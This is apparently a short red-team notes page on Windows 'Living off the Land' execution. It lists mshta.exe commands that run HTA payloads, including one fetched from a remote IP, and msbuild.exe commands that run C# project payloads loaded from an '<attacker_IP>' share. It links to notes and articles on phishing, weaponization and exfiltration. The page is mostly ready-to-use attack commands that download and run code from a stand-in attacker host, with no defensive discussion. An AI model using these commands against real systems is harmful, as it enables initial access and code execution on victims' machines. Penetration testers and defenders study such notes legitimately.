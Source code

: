 # Living off the Land

## 01 - MSHTA

```
C:\> mshta.exe %CD%\payload.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\payload.hta

C:\> mshta.exe http[s]://<IP>/payload.hta
```

## 02 - MSBuild

Execute C# project payloads.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\payload.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\payload.xml
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/DotNET/Manual|Code Execution: MSBuild]]

- [[HTA]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/WebDAV|File Transfer and Data Exfiltration: Linux WebDAV Server]]

### DMCXBlue

- [DMCXBlue: HTA](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-infrastructure/weaponization/hta)

- [DMCXBlue: Links - HTA Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files)

### Cyber Security Corner

- [Cyber Security Corner: How to exploit Active Directory remotely by using MSBuild + Metasploit + Bloodhound](https://redblueteam.wordpress.com/2019/06/18/how-to-exploit-active-directory-remotely-by-using-unicorn-msbuild-metasploit-bloodhound/)